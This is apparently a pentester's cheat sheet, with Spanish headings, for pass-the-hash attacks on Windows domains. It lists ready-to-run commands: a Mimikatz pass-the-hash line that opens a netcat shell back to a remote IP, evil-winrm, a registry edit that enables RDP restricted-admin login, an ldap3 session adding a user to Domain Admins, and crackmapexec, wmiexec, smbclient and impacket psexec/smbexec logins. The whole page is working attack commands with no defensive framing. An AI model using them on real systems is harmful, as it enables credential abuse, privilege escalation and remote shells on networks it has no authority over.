 
Localmente

Mimikatz

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"

Remotamente

#### winrm

```
evil-winrm -i 10.10.10.103 -u Administrator -H f6b7160bfc91823792e0ac3a162c9267
```

#### RDP

    cme smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
    xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C


#### LDAP

python

    python3
    >>> import ldap3
    >>> user = 'DOMAIN\\EXCHANGE$'
    >>> password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
    >>> server = ldap3.Server('DOMAIN.LOCAL')
    from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
    connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
    >>> connection.bind()
    >>> from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
    >>> user_dn = 'CN=IT User,OU=Standard Accounts,DC=domain,DC=local'
    >>> group_dn = 'CN=Domain Admins,CN=Users,DC=domain,DC=local'
    >>> addUsersInGroups(connection, user_dn, group_dn)
    True

crackmapexec

    crackmapexec ldap 192.168.175.202 -u usuarios.txt -H "<nt_hash>"

#### WMI

    wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

#### SMB

    smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

    impacket-psexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
    impacket-smbexec 'htb.local/Administrator@10.10.10.103' -hashes :f6b7160bfc91823792e0ac3a162c9267
